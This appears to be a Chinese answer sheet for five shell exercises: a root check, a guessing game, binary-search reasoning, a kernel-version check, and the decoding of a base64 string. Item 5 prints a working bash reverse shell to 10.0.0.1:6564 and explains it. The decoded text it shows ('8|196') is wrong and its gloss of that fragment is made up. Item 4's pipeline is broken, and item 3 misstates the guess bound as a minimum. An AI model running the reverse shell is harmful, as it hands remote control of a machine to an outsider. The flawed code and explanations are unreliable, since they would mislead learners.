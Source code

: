 1. [ "$(id -u)" -eq 0 ] && echo "hi, root" || echo "$(whoami)"

2.  #!/bin/bash
    secret_num=$(( RANDOM % 20 + 1 ))
    guesses=0
    while (( guesses < 5 )); do
        # 提示用户输入猜测值
        read -p "请输入猜测值（1-20）: " guess
        # 检查用户输入是否为数字
        if [[ ! $guess =~ ^[0-9]+$ ]]; then
            echo "输入无效，请输入数字。"
            continue
        fi
        # 判断猜测值与随机数字的关系
        if (( guess < secret_num )); then
            echo "猜小了。"
        elif (( guess > secret_num )); then
            echo "猜大了。"
        else
            echo "猜中啦！"
            break
        fi
        # 增加猜测次数
        guesses=$(( guesses + 1 ))
    done
    
    if (( guesses == 5 )); then
        echo "很遗憾，你没有猜中。正确答案是 $secret_num。"
    fi

3.初始时，我们可以选择中间值作为第一次的猜测，即猜测值为 500（因为 (0+1000)/2 = 500）。这是因为范围是0到1000，所以中间值500是一个合理的起始点，将搜索范围一分为二。

如果猜测的数字与目标数字相等，那么我们猜中了，猜测次数为1。

如果猜测的数字小于目标数字，那么目标数字只可能在较大的一半范围内，即500到1000之间。我们可以继续使用二分查找算法，在这个范围内再次猜测中间值，比如750（因为 (500+1000)/2 = 750）。

如果猜测的数字大于目标数字，那么目标数字只可能在较小的一半范围内，即0到500之间。我们可以继续使用二分查找算法，在这个范围内再次猜测中间值，比如250（因为 (0+500)/2 = 250）。

我们可以根据上面的步骤不断地缩小搜索范围，每次都将搜索范围缩小一半，直到猜中目标数字为止。

根据二分查找算法的性质，每次猜测都可以将搜索范围缩小一半，所以我们最多只需要进行 log2(1000) ≈ 10 次猜测，就可以在最坏情况下猜中目标数字。因此，至少要猜10次。这是一种最优化的策略，可以在最少的猜测次数内找到正确答案。

4. string=$(uname -r) | version=$(echo "$string -r" | cut -d '-' -f 1) && [[ $version > 5.4 ]] && echo "yes" || echo "no"

5. echo "MDwmMTk2O2V4ZWMgMTk2PD4vZGV2L3RjcC8xMC4wLjAuMS82NTY0OyBiYXNoIDwmMTk2ID4mMTk2IDI+JjE5Ng==" | base64 -d
   等于  8|196;exec 196<>/dev/tcp/10.0.0.1/6564; bash <&196 >&196 2>&196
Shell 的方式，可以用于与远程主机建立连接并在远程主机上执行 Bash 命令。下面是详细的解码过程：

使用 echo 命令将编码后的字符串输出到标准输入。
使用 base64 -d 命令对输入的字符串进行解码。
解码后得到明文字符串 8|196;exec 196<>/dev/tcp/10.0.0.1/6564; bash <&196 >&196 2>&196。
这个明文字符串是一个反向连接 Shell 的命令，它包含以下几个部分：

8|196;：将文件描述符 196 与标准输入（文件描述符 0）和标准输出（文件描述符 1）以及标准错误输出（文件描述符 2）关联。
exec 196<>/dev/tcp/10.0.0.1/6564;：使用 exec 命令将文件描述符 196 关联到 /dev/tcp/10.0.0.1/6564，即远程主机的 IP 地址为 10.0.0.1，端口号为 6564，建立反向连接。
bash <&196 >&196 2>&196：将文件描述符 196 作为输入重定向到 Bash，并将标准输出和标准错误输出都重定向到文件描述符 196，从而将 Shell 的输入输出与远程主机建立的连接关联起来，实现反向连接 Shell。
